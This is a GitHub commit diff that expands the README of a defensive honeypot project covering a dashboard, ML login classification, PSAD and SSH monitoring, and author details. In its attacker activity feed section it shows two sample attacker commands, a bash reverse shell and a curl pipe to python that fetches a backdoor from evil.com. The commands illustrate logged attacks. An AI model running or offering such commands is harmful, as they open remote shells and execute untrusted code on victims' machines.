

Before and after one commit to armank8000/honeypot, a Markdown page: readme.md, 2 parts joined by grey strips. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
updated readme contact details

````diff
--- a/readme.md
+++ b/readme.md
@@ -4,6 +4,62 @@
 
 # 🛡️ Honeypot A CYBER PROJECT Real-Time Dashboard Setup Guide
 
-This guide will walk you through setting up real-time SSH and PSAD monitoring for your Honeypot Dashboard. You’ll collect and visualize suspicious login attempts, port scans, and scanner behaviors.
+
+Our project is a **Honeypot-as-a-Service** platform that **detects, logs, analyzes, visualizes, and classifies real-time cyber attacks** using simulated honeypot services. It's enhanced with **machine learning**, **automated IP blocking**, and a live **real-time dashboard** for security teams to monitor and respond instantly.
+
+> “What antivirus does after a breach, our system does proactively before damage is done.”
 
 ---
+
+### 💡 Core Features:
+
+#### 1. 🛡️ **Simulated Honeypot Services**
+
+* Simulates vulnerable SSH, FTP, HTTP ports to **bait attackers**.
+* Logs every command and connection attempt.
+* Feels like a real service—deceives attackers into interacting.
+
+#### 2. ⚡ **Real-Time Interactive Dashboard**
+
+* Built in HTML + Chart.js + PHP + MySQL (No frameworks).
+* Live updates every **5 seconds** with:
+
+  * 📌 **Attack Type Distribution** (Normal vs Suspicious)
+  * ⏱️ **Time Series Graph** (Attacks over the last 12 hours)
+  * 🔐 **SSH Login Classifier** (Success/Fail attempts)
+  * 🚨 **Top IP Scanners** (from PSAD)
+  * 📊 **PSAD Summary Metrics** (Blocked IPs, Total Sources)
+  * 🛠️ **Port Scan Activity** (Tooltips with timestamp)
+
+#### 3. 🧠 **ML-based Anomaly Detection**
+
+* Every login attempt is classified using an AI model:
+
+  * `Normal` or `Suspicious`
+* Judges or admins can review and correct labels.
+* Model **re-trains automatically** based on human feedback (active learning).
+
+#### 4. 🔁 **Review & Feedback System**
+
+* Admin panel for:
+
+  * Reviewing unverified login logs.
+  * Labeling them with one click (`Normal` / `Suspicious`).
+  * System learns from admin input for smarter future classifications.
+
+#### 5. 📡 **Real SSH Monitoring (Non-standard port)**
+
+* Monitors actual login attempts on a real SSH server (e.g., port 2222).
+* Logs are parsed and stored into MySQL in real time.
+
+
+#### 8. 🧑‍💻 **Attacker Activity Feed**
+
+* Table of all commands executed by attackers.
+* Shows live logs such as:
+
+  ```bash
+  bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
+  curl http://evil.com/backdoor.py | python3
+  ```
+
@@ -223,6 +315,13 @@ Author: Arman Kumar, Himanshu Kumar
 Backend: PHP + Python + MySQL + ML
 Monitoring Tools: PSAD, Custom Scripts
 
+## 🤖 Author
+
+**Arman Kumar**
+Cybersecurity | OSINT | AI Security Projects
+[GitHub](https://github.com/armank8000) | [LinkedIn](https://linkedin.com/in/arman-kumar8000)
+
 ---
 
-Would you like this converted into a downloadable PDF or GitHub-ready `README.md` file?
+
+---
````
Also changed, not shown: other parts of readme.md (+36 -0 lines).
